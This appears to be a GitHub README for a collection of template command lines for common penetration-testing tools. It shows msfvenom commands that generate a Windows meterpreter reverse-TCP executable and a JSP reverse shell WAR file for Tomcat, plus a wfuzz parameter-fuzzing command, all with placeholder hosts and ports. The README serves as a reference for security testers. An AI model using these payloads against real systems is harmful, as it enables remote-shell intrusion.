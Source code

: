 # Pentesting CLI Call Collection # 

A single grepable file, that contains lots of prototype like CLI calls, of the most common pentesting tools.
Spend less time with man pages ;)

## Example
You can grep the call collection via the `qccc` script:
```bash
qccc msfvenom
# msfvenom generate meterpreter with file format exe for windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe
# msfvenom generate java tcp reverse shell with file format war for tomcat deployment
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war
```

Or grep the call collecction manually:
```bash
grep -i wfuzz cli-call-collection.txt 
# wfuzz fuzz a get parameter with; -f out file; --hw hide response with word count; --hh hide response with character count; --hc <code> hide responsecode <code>
wfuzz --hw <word-count> -f <out-file> -w <wordlist> 'https://target.url?param1=FUZZ&param2=42'
```
